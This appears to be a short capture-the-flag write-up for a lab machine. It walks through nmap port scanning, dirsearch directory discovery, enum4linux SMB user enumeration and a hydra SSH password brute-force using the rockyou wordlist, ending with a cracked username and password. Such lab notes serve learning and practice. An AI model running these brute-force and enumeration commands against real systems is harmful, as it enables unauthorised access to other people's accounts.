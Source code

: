 # Open port
nmap -sV -sC 10.10.218.209 (sV for understand what service there is on each port, sC to run default script)
***************
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
***************

# Find secret web path
dirsearch/dirbuster to find the hidden directories.

dirsearch -u http://10.10.218.209


# Find usernames
try to enumerate smb protocol
enum4linux -a 10.10.218.209 (this is a tool to enumerate windows and smb)
*************
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
*****************
# crack the password
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.218.209

using hydra to crack the password of ssh

***********
[22][ssh] host: 10.10.218.209   login: jan   password: armando
***************